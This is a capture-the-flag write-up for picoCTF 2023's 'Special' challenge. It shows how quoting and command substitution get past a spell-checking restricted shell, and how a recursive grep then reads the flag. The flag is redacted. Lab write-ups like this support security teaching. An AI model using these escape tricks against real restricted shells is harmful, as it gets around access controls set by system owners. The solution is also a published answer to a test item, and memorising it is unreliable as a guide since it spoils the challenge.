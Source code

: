 # Special

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 300
Tags: picoCTF 2023, General Skills, bash, ssh
Author: LT 'SYREAL' JONES

Description:
Don't power users get tired of making spelling mistakes in the shell? Not anymore! 
Enter Special, the Spell Checked Interface for Affecting Linux. 
Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! 

Be the first to test Special in beta, and feel free to tell us all about how Special 
streamlines every development process that you face. When your co-workers see your 
amazing shell interface, just tell them: That's Special (TM)

Start your instance to see connection details.
ssh -p 63243 ctf-player@saturn.picoctf.net
The password is 3f39b042
 
Hints:
1. Experiment with different shell syntax
```

## Solution

### Connect to the server

Start by connecting to the server with SSH
```
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2023/General_Skills/Special]
└─$ ssh -p 63243 ctf-player@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:63243 ([13.59.203.175]:63243)' can't be established.
ED25519 key fingerprint is SHA256:tJ0wuU5yBvNO/FrkHmR9iY36VJClMhKV+Hq2sxqKFmg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:63243' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.19.0-1024-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Special$ 
```

### Try different commands

Lets start with some sample commands
```
Special$ ls
Is 
sh: 1: Is: not found
Special$ pwd
Pod 
sh: 1: Pod: not found
Special$ id
Id 
sh: 1: Id: not found
```
As said in the challenge description, the commands are spell-checked and Capitalized.

### Try to launch a real shell

Then I tried to launch a new real shell
```
Special$ bash
Why go back to an inferior shell?
Special$ sh
Why go back to an inferior shell?
Special$ csh
Why go back to an inferior shell?
Special$ zsh
Why go back to an inferior shell?
Special$ $0
I 
sh: 1: I: not found
```

Nope, not allowed or didn't work.

### Experiment with different shell syntax

Next, I followed the hint to `experiment with different shell syntax`.

I tried to `quote` commands with `'` and `"`
```
Special$ 'ls'
Also 
sh: 1: Also: not found
Special$ "ls"
Also 
sh: 1: Also: not found
```

This worked for some commands like `pwd` and `grep`
```
Special$ "pwd"
"pwd" 
/home/ctf-player

Special$ "grep"
"grep" 
Usage: grep [OPTION]... PATTERNS [FILE]...
Try 'grep --help' for more information.
```

I also tried [command substitution](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html). This also worked some what on commands like `ls`
```
Special$ $(ls)  
$(ls) 
sh: 1: blargh: not found
```
So there is a file or directory called `blargh` in the current directory (which is `/home/ctf-player`).

### Get the flag

Now we ought to be able to get the flag by grepping for anything (`.`) recursively
```
Special$ "grep" -r . *
"grep" or . * 
grep: .: Is a directory
grep: blargh: Is a directory

Special$ "grep" -"r" . *
"grep" -"r" . * 
blargh/flag.txt:picoCTF{<REDACTED>}
```

And there we have the flag.

For additional information, please see the references below.

## References

- [grep - Linux manual page](https://man7.org/linux/man-pages/man1/grep.1.html)
- [Command substitution - Bash Manual](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html)
